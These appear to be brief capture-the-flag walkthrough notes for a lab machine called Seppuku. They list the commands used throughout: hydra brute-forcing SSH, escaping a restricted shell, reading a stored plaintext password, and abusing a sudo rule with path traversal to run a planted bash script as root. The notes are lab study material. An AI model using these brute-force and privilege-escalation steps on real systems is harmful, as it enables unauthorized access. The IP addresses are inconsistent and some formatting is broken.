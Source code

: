 -  go to /secret and found multiple files
-  log in as user seppuku by brute forcing passwd

**hydra \-l seppuku \-P seppukuPass\.lst 192\.168\.249\.90 ssh**

ssh seppuku@192\.168\.0\.132 \-t "bash \-\-noprofile" 
-  to spawn shell in bash and not rbash

found 2 other users: samurai, tanto

ls \-la 
cat \.passwd =\> 12345685213456\!@\!@A

su samurai
passwd \- 12345685213456\!@\!@A

sudo \-l
-  /\.\./\.\./\.\./\.\./\.\./\.\./home/tanto/\.cgi\_bin/bin /tmp/\*

log in as user **tanto**using private key file

mkdir \.cgi\_bin
echo “/bin/bash” \>\> bin
chmod \+x bin

su samurai**
sudo /\.\./\.\./\.\./\.\./\.\./\.\./home/tanto/\.cgi\_bin/bin /tmp/\***

spawns ## root ##